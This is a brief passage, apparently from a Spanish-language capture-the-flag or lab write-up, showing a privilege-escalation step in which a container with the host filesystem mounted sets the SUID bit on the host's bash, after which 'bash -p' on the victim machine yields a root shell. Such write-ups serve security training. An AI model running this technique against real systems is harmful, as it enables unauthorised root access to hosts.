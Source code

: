    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```
